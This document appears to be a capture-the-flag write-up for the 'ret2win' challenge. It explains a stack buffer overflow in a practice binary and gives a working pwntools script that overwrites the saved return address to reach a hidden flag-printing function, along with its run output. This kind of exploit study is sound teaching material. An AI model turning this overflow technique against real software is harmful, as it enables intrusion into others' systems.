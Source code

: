 # ret2win

A simple exploit involving overflowing a buffer and overwriting the saved `rip` value.

There are two main functions in this program, `main` and `pwnme`. Obviously we need to exploit the latter.

Looking at the decompiled code of `pwnme` in Cutter:

```c
void pwnme(void)
{
    void *buf; // sub rsp, 0x20
    
    memset(&buf, 0, 0x20); 
    puts("For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!");
    puts("What could possibly go wrong?");
    puts("You there, may I have your input please? And don\'t worry about null bytes, we\'re using read()!\n");
    printf(0x400918);
    read(0, &buf, 0x38);
    puts("Thank you!");
    return;
}
```

This allocates 0x20 bytes of stack space, but reads in 0x38 bytes. Which means we can overflow this buffer and write into the saved instruction pointer further down on the stack. So, when the function `ret`s and pops `rip`, it won't jump back to `main`, but rather somewhere else. But where?

Turns out, there's a secret function that was never called. Looking at the symbol table, we find something rather interesting:

```text
sym.main
sym.pwnme
sym.register_tm_clones
sym.ret2win
```

That ret2win looks very suspicious. I wonder what it contains.

```c
void ret2win(void)
{
    puts("Well done! Here\'s your flag:");
    system("/bin/cat flag.txt");
    return;
}
```

...oh. Well, our life just got a whole lot easier.

Great. Now that we know where to jump to, let's figure out how to get there.

So, at the call to `read()`, the stack looks like this:

```text
------------------------

[buf (32 bytes)]      <- rsp
[saved rsp (8 bytes)] <- rbp
[saved rip (8 bytes)]

------------------------
```

What we want to do is to overflow `buf` and write into the saved `rip` memory region the address of `ret2win`.

We can just write a simple exploit script with `pwntools` like so:

```python
# The "kitchen sink" approach.
from pwn import *

# set the instruction set arch we're working with.
# since we're just sending in bytes, it's not important,
# but it's good practice to do it.
context.arch = "amd64"

# spawn the process. in a normal CTF, we'd use remote().
conn = process("./ret2win")

# receive bytes until we're prompted for input
conn.recvuntil(b"> ")

# construct our exploit string.
# 40 bytes of random data (by convention 0x41 'A' just cause)
# and the address of ret2win, packed to 64 bytes little-endian.
# we can easily do this with a convenience function provided by pwntools.
exp = b"A" * 40 + p64(0x400756)

# send the string.
conn.send(exp)

# we're not popping a shell, just reading a flag, so receive the bytes
# outputted by the program and print them to the screen.
print(conn.recvall())
```

Cool. Now all we gotta do is run it.

```text
$ python exploit.py

[+] Starting local process './ret2win': pid 170197
[+] Receiving all data: Done (73B)
[*] Process './ret2win' stopped with exit code -11 (SIGSEGV) (pid 170197)
b"Thank you!\nWell done! Here's your flag:\nROPE{a_placeholder_32byte_flag!}\n"
```
